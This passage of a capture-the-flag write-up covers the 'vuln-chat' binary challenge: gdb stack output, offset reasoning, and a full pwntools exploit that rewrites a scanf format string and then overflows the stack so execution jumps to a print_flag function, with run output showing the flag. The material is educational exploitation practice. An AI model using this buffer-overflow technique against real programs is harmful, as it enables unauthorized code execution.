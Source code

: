 ```bash
0xffffd05b:    0x00000008    0xfaf00000    0x73303325    0x00000000
0xffffd06b:    0xdefe8100    0x000001f7
gef➤  i f
Stack level 0, frame at 0xffffd070:
 eip = 0x8048639 in main; saved eip = 0xf7defe81
 Arglist at 0xffffd068, args:
 Locals at 0xffffd068, Previous frame's sp is 0xffffd070
 Saved registers:
  ebp at 0xffffd068, eip at 0xffffd06c
```

So we can see that the format string is stored at `0xffffd063`, which is 20 bytes away from our name at `0xffffd04f`. Our second input begins at `0xffffd03b` which is `0x31` bytes away from the return address at `0xffffd06c`. Also one thing, the memory layout here probably looks a bit weird. The reason for this is x86 is designed around 4 byte values (although it can handle a lot of different sizes for value types), so most addresses (with the except of variable length ones) are aligned to either `0x0`, `0x4`, `0x8`, or `0xc`. `However our char array (which can be a wide array of values) starts at 0xffffd03b, so it messes up the alignment when we view the memory using it as a reference.`
Putting it all together, we get the following exploit:

```py
from pwn import *

# Establish the target_process
target = process('./vuln-chat')

# print the initial text
print target.recvuntil("username: ")
# Form the first payload to overwrite the scanf format string
payload0 = ""
payload0 += "0"*0x14 # Fill up space to format string
payload0 += "%99s" # Overwrite it with "%99s"

# Send the payload with a newline character
target.sendline(payload0)

# Print the text up to the second scanf call
print target.recvuntil("I know I can trust you?")

# From the second payload to overwrite the return address
payload1 = ""
payload1 += "1"*0x31 # Filler space to return address
payload1 += p32(0x804856b) # Address of the print_flag function

# Send the second payload with a newline character
target.sendline(payload1)

# Drop to an interactive shell to view the rest of the input
target.interactive()
```

when we run it:
```bash
$    python exploit.py
[+] Starting local process './vuln-chat': pid 9724
----------- Welcome to vuln-chat -------------
Enter your username:
Welcome 00000000000000000000%99s!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
[*] Switching to interactive mode

00000000000000000000%99s: djinn: Sorry. That's not good enough
flag{g0ttem_b0yz}
```